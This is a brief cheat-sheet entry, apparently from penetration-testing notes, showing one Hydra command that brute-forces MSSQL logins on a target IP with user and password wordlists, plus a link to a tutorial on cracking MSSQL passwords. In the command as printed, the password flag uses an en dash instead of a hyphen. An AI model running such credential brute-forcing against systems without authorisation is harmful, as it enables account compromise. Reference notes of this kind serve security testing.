 # Hydra

`$ hydra -V -L users.lst –P passwords.lst <IP> mssql`

---
## References

- [Hacking Articles: Password Cracking MSSQL](https://www.hackingarticles.in/password-crackingms-sql/)